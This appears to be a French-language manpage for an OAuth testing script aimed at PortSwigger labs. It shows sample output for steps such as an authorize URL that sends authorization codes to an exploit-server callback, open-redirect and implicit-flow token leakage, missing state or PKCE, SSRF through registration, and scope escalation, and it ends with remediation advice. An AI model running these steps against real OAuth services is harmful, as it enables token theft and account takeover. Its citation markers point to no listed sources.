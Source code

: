 # MANPAGE

Voici un **exemple exhaustif de l’exécution du script OAuth PortSwigger incluant l’exemple d’enregistrement d’application sur l’exploit server**, couvrant chaque étape du script et illustrant le déroulé typique d’un lab PortSwigger OAuth, notamment ceux impliquant le vol de code ou de token via une application externe :

---

### 0. Exemple d’application OAuth à enregistrer sur le serveur d’exploitation

```
------------------------------------------------------
[0] Exemple d'application OAuth à enregistrer sur le serveur d'exploitation (exploit server)
Utilisez ces valeurs lors de l'enregistrement de votre application sur le serveur OAuth cible :

Nom de l'application : ExploitApp
Client ID            : acme
Client Secret        : (généré automatiquement ou à noter)
Redirect URI         : https://exploit-<your-lab>.exploit-server.net/callback
Scopes               : openid profile email (ou admin, selon le lab)
Type d'application   : Web application / Confidential
Grant type           : Authorization Code

Après l'enregistrement, utilisez le lien suivant pour lancer l'authentification :
https://<your-lab>.web-security-academy.net/oauth2/authorize?client_id=acme&response_type=code&redirect_uri=https://exploit-<your-lab>.exploit-server.net/callback&scope=openid

Sur l'exploit server, créez un endpoint /callback pour capturer le code ou le token.
Vous pouvez visualiser les requêtes reçues dans l'interface de l'exploit server PortSwigger.
```
*Le script fournit la configuration à utiliser pour enregistrer une application OAuth sur l’exploit server, comme demandé dans de nombreux labs PortSwigger[6][5].*

---

### 1. Analyse des endpoints OAuth

```
------------------------------------------------------
[1] Analyse des endpoints OAuth
  [+] Endpoint trouvé : https://<your-lab>.web-security-academy.net/oauth2/authorize
HTTP/1.1 200 OK
Content-Type: text/html
...
  [+] Endpoint trouvé : https://<your-lab>.web-security-academy.net/oauth2/token
HTTP/1.1 200 OK
Content-Type: application/json
...
```
*Le script détecte les endpoints d’autorisation/token, ou les fichiers de configuration OpenID (`/.well-known/`).*

---

### 2. Test d’open redirect sur redirect_uri

```
------------------------------------------------------
[2] Test d’open redirect sur redirect_uri
  [+] Open redirect détecté sur redirect_uri !
Location: https://exploit-<your-lab>.exploit-server.net/callback?code=6f8b...
```
*Le script construit une URL d’auth avec un `redirect_uri` externe et vérifie que la redirection est acceptée, ce qui permet de voler un code ou un token dans certains labs[5][6].*

---

### 3. Test de vulnérabilité CSRF/state

```
------------------------------------------------------
[3] Test de vulnérabilité CSRF/state
  [-] Pas de paramètre state (risque CSRF possible).
```
*Le script vérifie si le paramètre `state` est présent dans la réponse de l’endpoint d’autorisation. Son absence indique une protection CSRF insuffisante, vecteur courant d’attaque OAuth[1].*

---

### 4. Test de l’implict flow (token dans l’URL)

```
------------------------------------------------------
[4] Test de l’implict flow (token dans l’URL)
  [+] Implicit flow détecté, access_token exposé dans l’URL !
access_token=eyJ0eXAiOiJKV1QiLCJhbGciOi...
```
*Le script force `response_type=token` et vérifie si un access_token est renvoyé dans l’URL, exposant le token à des attaques via open redirect ou proxy page[4][3][5].*

---

### 5. Test de code leakage (code dans l’URL ou via Referer)

```
------------------------------------------------------
[5] Test de code leakage (code dans l’URL ou via Referer)
  [+] Code OAuth détecté dans l’URL ou la réponse !
code=6f8b2a9c2f7e4a...
```
*Le script vérifie si le code d’autorisation est exposé dans l’URL ou dans les headers, ce qui peut permettre un vol de code OAuth par un attaquant si un open redirect est exploité[6][5].*

---

### 6. Test de la présence de PKCE

```
------------------------------------------------------
[6] Test de la présence de PKCE
  [-] PKCE non supporté ou non exigé.
```
*Le script teste la prise en charge de PKCE (Proof Key for Code Exchange), une protection contre l’interception du code. Son absence est une faiblesse sur les flows publics[1].*

---

### 7. Test SSRF via registration (jwks_uri, jku, request_uri)

```
------------------------------------------------------
[7] Test SSRF via registration (jwks_uri, jku, request_uri)
- Enregistrez une application OAuth sur le serveur cible avec une URL contrôlée (jwks_uri, jku, request_uri) pointant vers https://exploit-<your-lab>.exploit-server.net.
- Surveillez les logs de l’exploit server pour détecter une requête du serveur OAuth.
```
*Le script rappelle la démarche pour tester l’attaque SSRF via des paramètres d’enregistrement dynamique, vue dans les recherches avancées PortSwigger[2].*

---

### 8. Test de manipulation des scopes

```
------------------------------------------------------
[8] Test de manipulation des scopes
  [+] Scope admin accepté dans la réponse !
```
*Le script tente d’obtenir un scope privilégié (`scope=openid admin`). Si accepté, cela permet d’obtenir des droits étendus ou d’accéder à des données sensibles.*

---

### 9. Conseils/remédiation

```
------------------------------------------------------
[Remédiation & Conseils]
- Validez strictement redirect_uri (whitelist, comparaison stricte).
- Exigez et liez un paramètre state unique à la session utilisateur.
- Utilisez PKCE pour protéger le code d’autorisation.
- Ne jamais exposer access_token ou code dans l’URL ou via Referer.
- Filtrez et validez tous les paramètres d’enregistrement (jwks_uri, jku, request_uri).
- Limitez les scopes accessibles et vérifiez leur usage côté serveur.
- Documentation PortSwigger : https://portswigger.net/web-security/oauth
```
*Le script rappelle les bonnes pratiques recommandées par PortSwigger pour sécuriser les implémentations OAuth[7].*

---

### 10. Synthèse

```
------------------------------------------------------
[SYNTHÈSE]
0. Exemple d'enregistrement d'application sur l'exploit server.
1. Découverte des endpoints OAuth.
2. Tests d’open redirect, CSRF/state, implicit flow, code leakage, PKCE, SSRF, scope.
3. Contrôle automatisé ou semi-automatisé de la réponse.
4. Conseils de remédiation PortSwigger.
------------------------------------------------------
```
